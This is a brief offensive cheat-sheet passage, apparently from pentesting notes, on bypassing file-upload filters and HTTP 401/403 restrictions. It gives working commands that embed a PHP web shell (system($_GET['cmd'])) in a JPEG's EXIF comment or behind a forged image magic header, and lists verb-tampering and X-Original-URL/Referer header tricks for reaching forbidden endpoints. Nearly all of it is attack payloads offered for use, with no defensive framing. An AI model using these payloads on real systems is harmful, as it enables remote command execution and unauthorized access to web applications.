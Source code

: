 `exiftool`

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' evil.jpg

mv evil.jpg evil.php.jpg
```

`magic header`
```bash
head -c 20 example.png > magic.php && echo "<?php system($_GET['cmd']);?>" >> magic.php
```

### Bypass 401/403

#### Try differnet verbs to access the file-> `GET`, `HEAD`, `POST`, `PUT`, `DELETE`, `CONNECT`, `OPTIONS`, `TRACE`, `PATCH`, `INVENTED`, `HACK`
```http
GET /api/getUser --> 403
GET / + X-Original-URL : /api/GetUser --> 200

GET /api/getUser --> 403
GET / + Referer : https://site.com/api/GetUser --> 200
or
GET /api/getUser + Referer : https://site.com/api/GetUser --> 200
```